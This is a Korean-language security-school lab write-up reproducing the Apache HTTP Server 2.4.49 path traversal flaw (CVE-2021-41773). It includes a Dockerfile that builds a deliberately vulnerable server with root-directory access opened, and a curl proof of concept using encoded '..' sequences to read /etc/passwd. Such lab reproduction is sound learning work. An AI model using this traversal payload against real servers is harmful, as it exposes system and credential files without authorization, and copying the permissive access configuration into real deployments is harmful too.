 # Apache HTTP Server Path Traversal (CVE-2021-41773)  
화이트햇 스쿨 3기 – 조민규 (@oureukk)

---

## 요약
- Apache HTTP Server 2.4.49 버전의 `mod_cgi` 경로 검증 로직에 결함이 있어, URL 인코딩된 `..` 시퀀스를 통해 문서 루트 밖의 임의 파일을 읽을 수 있음.  
- 공격자는 `/etc/passwd` 같은 시스템 파일은 물론, 웹 서버가 읽을 수 있는 모든 파일을 노출시킬 수 있음.  

---

## 환경 구성 및 실행

1. **Dockerfile 작성**  
   `Dockerfile`:
   ```dockerfile
   FROM httpd:2.4.49

   # bash 및 기타 유틸 설치
   RUN apt-get update && apt-get install -y bash

   # 간단한 CGI 스크립트 생성
   RUN printf '%s\n' '#!/bin/bash' 'echo "Content-type: text/plain"' 'echo' 'echo "Hello from CGI"' \
       > /usr/local/apache2/cgi-bin/hello.sh \
     && chmod +x /usr/local/apache2/cgi-bin/hello.sh

   #루트파일도 읽히도록 액세스 제어 변경
   RUN printf '%s\n' \
    '<Directory "/">' \
      '    Require all granted' \
    '</Directory>' \
    >> /usr/local/apache2/conf/httpd.conf
  '''
  
2. **docker-compose.yml 작성"
   '''yaml
   version: "3.8"
   services:
    apache-vuln:
      build: .
      ports:
        - "8080:80"

3. 컨테이너 빌드 및 실행
   docker-compose up -d

4. 정상 동작 확인
   curl -i http://localhost:8080/cgi-bin/hello.sh

5. 취약점 Poc 호출
   curl -i "http://localhost:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/etc/passwd"

---

## 결과
![image](https://github.com/user-attachments/assets/8241770b-6b3f-45b4-b8df-9ddbf5f97b4a)

---

## 정리
- 취약 원인: Apache 2.4.49에서 URL 디코딩 후 경로 검증을 우회할 수 있어, .. 인코딩 시퀀스를 통해 문서 루트를 넘어선 파일 액세스가 허용됨.

- 영향도: 웹 서버가 읽을 수 있는 모든 시스템 파일 및 애플리케이션 파일 정보 노출 → 정보 유출, 내부 구조 파악, 추가 공격 발판 제공

---
